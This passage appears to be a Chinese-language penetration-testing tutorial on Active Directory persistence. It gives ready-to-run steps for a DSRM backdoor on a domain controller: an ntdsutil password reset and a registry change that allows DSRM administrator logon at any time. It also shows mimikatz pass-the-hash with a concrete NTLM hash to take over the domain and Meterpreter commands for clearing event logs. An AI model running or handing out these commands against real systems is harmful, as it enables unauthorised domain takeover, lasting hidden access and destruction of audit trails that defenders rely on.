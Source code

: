 **在域控制器上，DSRM 账号的表现形式是本地的管理员 Administrator 用户，也就是说本地管理员 Administrator 用户等于 DSRM 账号。**

首先，为 DSRM 账号设置新密码。在域控制器（Windows 2008）的 cmd 中进入 ntdsutil，然后输入下面命令进行修改 DSRM 账户的密码：

```
ntdsutil    // 进入ntdsutil
set dsrm password    // 设置DSRM账户的密码
reset password on server null    // 在当前域控制器上恢复DSRM密码

<password>    // 输入新密码
<password>    // 重新输入新密码
q    //退出DSRM密码设置模式
q    // 退出ntdsutil
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRuoqtibJPKCPO6fJcicE99Ox5N9QrhHxCYIrz0PJeya5pkGf3bDMSh5icA/640?wx_fmt=png)

然后再使用 kiwi 抓取 ntml hash

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRsuQocohZjgpufNpHztIbxia7wcGhwN5f5AHqepfqTqnkQ8AtS801Ogg/640?wx_fmt=png)

然后，我们修改域控主机的 DSRM 账户登录方式。在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。我们可以在以下注册表位置中新建 DsrmAdminLogonBehavior 项进行设置，将该新建的项中的值设为 0、1、2 可以分别设置不同的 DSRM 账户登录方式：

```
HKLM:\System\CurrentControlSet\Control\Lsa\

0：默认值，只有当域控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号
1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器
2：在任何情况下，都可以使用DSRM管理员账号登录域控制器
```

如下所示，我们用 powershell 命令将 DSRM 的登录方式设置为 “2”，即在任何情况下，都可以使用 DSRM 管理员账号登录域控制器：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -name "DsrmAdminLogonBehavior" -value 2 -propertyType DWORD
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRtzYNXsmiaFvLw0wLxmxUQibX3dVw3l0a8HXCB3SM6Qr7zzQVGlMF4IVg/640?wx_fmt=png)

使用 win7 上的 mimikatz 进行 hash 传递即可获取到域控权限

```
privilege::Debugsekurlsa::pth /domain:WIN-K6S18HH1766 /user:administrator /ntlm:a812e6c2defcb0a7b80868f9f3c88d09
```

**日志清除**
--------

日志清除有两种方法，一种是使用 kali 里面自带的命令进行日志清除

```
run event_manager -i
run event_manager -c
```
